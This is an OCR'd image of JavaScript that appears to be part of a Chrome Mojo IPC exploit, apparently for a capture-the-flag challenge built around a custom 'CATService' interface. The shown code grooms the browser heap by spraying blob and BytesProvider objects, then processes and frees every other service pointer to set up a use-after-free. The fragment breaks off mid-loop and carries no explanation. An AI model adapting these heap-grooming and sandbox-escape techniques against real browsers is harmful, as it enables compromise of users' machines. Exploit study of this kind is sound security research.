 ```javascript

  for(let i = 0; i < ptrs.length; i++) {
    ptrs[i].initialize();
  }
  
  await wait(100);
  
  log("doing blobs")

  const blobs = [];
  const ids = [];
  for(let i = 0; i < ptrs.length; i++) {
    const { id } = (await ptrs[i].addCAT({
      data: [1]
    })).result;

    ids.push(id);
  }

  const blobRegistry = new blink.mojom.BlobRegistryPtr();
  Mojo.bindInterface(blink.mojom.BlobRegistry.name, mojo.makeRequest(blobRegistry).handle, "process");
  
  const blobData = [];
  for(let i = 0; i < 0x100; i++) {
    const blobPtr = new blink.mojom.BlobPtr();
    const remote = new blink.mojom.BytesProviderPtr();
    function Impl() {}
    Impl.prototype = {
      requestAsReply: async (a, b) => {
        return {
          data: [1]
        }
      },
      requestAsStream: () => log("hi2"),
      requestAsFile: () => log("hi3")
    }
    const binding = new mojo.Binding(blink.mojom.BytesProvider, new Impl());
    binding.bind(mojo.makeRequest(remote));

    blobData.push({ remote, blobPtr });
  }

  const ptrs2 = [];
  for(let j = 0; j < 10; j++) {
    const ptr = new blink.mojom.CATServicePtr();
    fact.register(mojo.makeRequest(ptr), blink.mojom.CATServiceType.kDirty);

    ptrs2.push(ptr);
  }

  for(let j = 0; j < ptrs.length; j+=2) {
    ptrs[j].processCAT({
      id: ids[j]
    });
    ptrs[j].ptr.reset();
  }
  
  const BLOCK = 5;
  for(let j = 0; j < 40; j+=BLOCK) {
    const idx = j;
    const dataElems = [];

```